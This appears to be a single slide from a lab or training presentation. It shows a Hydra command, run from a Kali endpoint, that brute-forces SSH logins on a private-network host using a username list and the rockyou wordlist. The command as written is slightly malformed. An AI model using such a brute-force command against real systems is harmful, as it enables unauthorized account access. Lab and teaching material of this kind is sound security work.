

# Hydra code used to attempt attack
Code used for hydra attack by Kali endpoint:
Hydra –l usernames.txt –p /usr/share/wordlists/rockyou.txt.gz –t 10 ssh://192.168.30.10